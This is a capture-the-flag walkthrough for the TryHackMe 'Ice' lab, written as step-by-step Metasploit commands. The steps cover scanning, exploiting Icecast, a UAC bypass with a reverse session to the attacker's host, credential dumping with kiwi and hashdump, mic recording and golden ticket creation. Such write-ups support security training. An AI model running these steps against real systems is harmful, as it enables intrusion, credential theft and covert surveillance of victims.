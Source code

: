 # Ice

**Room Link:** [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)



## Recon

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Gain Access

**Kali**

```
msfconsole
```

**Metasploit**

```
search icecast
use 0
set RHOSTS $VICTIM
run
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

## Escalate



<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
run post/multi/recon/local_exploit_suggester
background
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

**Metasploit**

```
use exploit/windows/local/bypassuac_eventvwr
set SESSIONS 1
set LHOST $KALI
run
```

We are still user dark but have a lot of privilege's now

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

## Looting

**Meterpreter**

```
ps
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
ps
migrate -N spoolsv.exe
```

**Meterpreter**

```
load kiwi
creds_all
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
screenshare
record_mic
golden_ticket_create
```





















